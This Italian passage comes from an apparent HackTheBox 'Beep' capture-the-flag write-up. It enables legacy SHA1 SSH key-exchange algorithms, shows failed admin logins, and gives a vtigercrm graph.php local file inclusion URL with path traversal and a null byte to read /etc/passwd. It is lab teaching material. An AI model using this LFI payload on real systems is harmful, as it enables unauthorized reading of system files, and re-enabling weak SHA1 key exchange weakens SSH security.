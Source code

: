  >si verifica quando il client SSH non riesce a trovare un metodo di scambio delle chiavi supportato dal server SSH remoto. In questo caso, il server offre i seguenti metodi di scambio delle chiavi: diffie-hellman-group-exchange-sha1, diffie-hellman-group14-sha1, diffie-hellman-group1-sha1.
  Questo errore può verificarsi quando il client SSH ha restrizioni o configurazioni specifiche che limitano i metodi di scambio delle chiavi supportati. Potrebbe essere necessario abilitare o aggiornare i metodi di scambio delle chiavi nel client SSH per consentire una corretta negoziazione con il server.
  Per risolvere il problema, apriamo il file di configurazione del client SSH (solitamente situato in /etc/ssh/ssh_config o ~/.ssh/config) e assicurati che i metodi di scambio delle chiavi supportati siano abilitati. Possiamo  aggiungere o modificare la seguente linea nel file di configurazione:
  
```bash
KexAlgorithms diffie-hellman-group-exchange-sha256,diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

>

Riproviamo ad accedere ad ssh come utente admin:

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# ssh admin@10.10.10.7

admin@10.10.10.7's password: 
Permission denied, please try again.
admin@10.10.10.7's password: 
Permission denied, please try again.
admin@10.10.10.7's password: 
admin@10.10.10.7: Permission denied (publickey,gssapi-with-mic,password).
```

Non funziona

Proviamo ad usare LFI per estrarre gli utenti della macchina

`https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action

![](../zzz_rev/attachments/beep5.png)
sempre andando a vedere il codice sorgente abbiamo la corretta formattazione degli utenti 